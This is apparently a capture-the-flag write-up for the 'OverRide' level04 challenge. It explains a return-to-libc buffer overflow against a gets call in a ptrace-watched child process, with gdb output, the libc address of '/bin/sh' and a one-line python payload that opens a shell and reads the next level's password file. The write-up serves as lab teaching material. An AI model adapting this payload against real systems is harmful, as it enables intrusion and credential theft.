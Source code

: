 ## Brief

This program spwan a child process in which the `gets` function is called in a buffer. The main process use the ptrace function in order to check that we don't use `execve` syscall.

## Exploit

We will use a classic buffer overflow to rewrite the return address of the main function in the child process but we won't inject a shellcode.

We're using a return to libc attack, so we get the address of the `system` function.

So now we will rewrite the return address with the address of the `system` function, using the pattern generator we see that the offset is 156.

We then need to set the parameters of `system` we want to execute `/bin/bash` so we just need to the string in the libc and put the address as a parameter. To do so we use the command `string`.

```bash
(gdb) info proc mapping
process 1927
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    ...
```

```bash
level04@OverRide:~$ strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
15d7ec /bin/sh
```

Adding the offset with the base we get the address `0xf7f897ec`. We need to offset this address by 4 bytes to skip the old `eip` of the `system` function.

## Commands

```bash
(python -c "print('\x90'*156 + '\xd0\xae\xe6\xf7' + '\x00'*4 + '\xec\x97\xf8\xf7')"; echo "cat /home/users/level05/.pass") | ./level04
```